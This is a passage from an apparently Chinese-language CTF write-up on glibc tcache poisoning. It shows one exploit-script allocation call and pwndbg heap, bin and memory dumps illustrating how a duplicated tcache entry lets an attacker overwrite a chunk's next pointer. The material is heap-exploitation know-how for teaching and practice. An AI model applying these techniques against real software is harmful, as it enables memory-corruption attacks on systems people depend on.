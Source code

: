 如上面所示，我们可以利用tcache_poisoning更改堆块的next指针，首先先创建了一个chunk：

```python
new(0x50) #1
```

```c
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555757000
Size: 0x251

Free chunk (tcache) | PREV_INUSE
Addr: 0x555555757250
Size: 0x61
fd: 0x555555757260

Top chunk | PREV_INUSE
Addr: 0x5555557572b0
Size: 0x20d51

pwndbg> bin
tcachebins
0x60 [  1]: 0x555555757260 ◂— 0x555555757260 /* '`ruUUU' */
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> x/100gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
0x555555757010:	0x0000000100000000	0x0000000000000000
    			#tcache_count
.......(省略内容均为空)
0x555555757070:	0x0000555555757260	0x0000000000000000
.......(省略内容均为空)
0x555555757250:	0x0000000000000000	0x0000000000000061 #chunk0(chunk1)
0x555555757260:	0x0000555555757260	0x0000000000000000
.......(省略内容均为空)
0x5555557572b0:	0x0000000000000000	0x0000000000020d51 #top_chunk
.......(省略内容均为空)
0x555555757310:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx 0x555555756060
0x555555756060:	0x0000005000000000	0x0000000000000000
    			#size1=0x50
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000555555757260	0x0000555555757260
    			#chunk0_data_ptr    #chunk1_data_ptr
    			#两个指针相同的原因是之前的Tcache dup导致的
0x555555756090:	0x0000000000000000	0x0000000000000000
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
pwndbg> 

```